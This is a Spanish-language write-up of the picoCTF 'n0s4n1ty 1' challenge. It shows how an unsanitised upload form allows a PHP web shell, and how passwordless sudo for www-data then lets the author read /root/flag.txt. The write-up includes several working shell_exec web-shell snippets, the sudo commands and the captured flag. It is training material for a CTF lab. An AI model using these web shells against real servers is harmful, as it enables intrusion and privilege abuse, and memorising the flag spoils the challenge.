 ```yaml
---
title: n0s4n1ty
date: 2025-03-29 19:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


n0s4n1ty 1

>Author: Prince Niyonshuti N.
Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
{: .prompt-tip }

Al lanzar la instancia tenemos acceso a una web donde aparece un formulario para subir un archivo. 

Bueno parece una oportunidad para subir una shell. La forma de aproximarse a estos formularios web es ver si la entrada está sanitizada. 
Sanitizar la entrada significa que a nivel de la aplicación, el código de la misma maneja que tipo de archivos se pueden subir, de que tamaño,
de que extensión y otros filtros que deberían comprobarse pero estos ejercicios suelen ser más sencillos que todo eso. 

The file c99.php has been uploaded Path: uploads/c99.php. Uso c99shell, hay muchas PHP shells [hacktools#web-shells](../hacktools#web-shells). Aunque tiene unas cuantas funcionalidades ya integradas con estos entornos no se puede ir tan a lo bestia, no funciona, así que probaré algo más manual. 

Codifico esta web en PHP, como no se sanitiza la entrada el servidor es posible que ejecute todo el código PHP que 
se encuentra dentro de las rutas de la aplicación incluido el directorio de uploads. Así que a subir una _webshell_ toca.
Poco a poco voy comprobando que la cosa funciona, prueba y error, determino la ruta completa hacia /root.

``` php
<?php
$output = shell_exec("pwd");
echo $output;
?>
```
Tengo resultados, el código se ha ejecutado, ahora sabemos que el archivo que hemos subido está exactamente en:
```/var/www/html/uploads ```

Después de hacer algunos cambios y resubir el archivo varias veces caigo en la cuenta de que con el directorio root no estoy teniendo suerte, añado una salida para comprobar que php se está ejecutando ```echo "Salida commando\n";```, así que añado sudo y descubro la sorpresa, el usuario actual ha sido añadido al fichero sudoers y ni siquiera necesita una password para ejecutar comandos del sistema.

``` php
<?php
$output = shell_exec("whoami");
echo "Salida commando\n";
echo $output;
?>
```

```Salida commando www-data```

``` php
<?php
$output = shell_exec("sudo ls ../../../../root/");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando flag.txt```

Codifico una última versión para capturar la banderita.
``` php
<?php
$output = shell_exec("sudo cat ../../../../root/flag.txt");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}```

flag: **picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}**

Un buen ejemplo de como una mala praxis a la hora de asignar permisos a usuarios en este caso www-data en combinación con la falta de sanitización
de las entradas en la aplicación permite un RFI (Remote file inclusion) que se converte en un RCE (Remote code execution). Pues aunque el código PHP se ejecuta del lado del servidor la acción de visitar a la página subida es la que lleva a cabo la ejecución en el servidor remotamente. 
Sanitizen sus entradas o perezcan en el camino. 
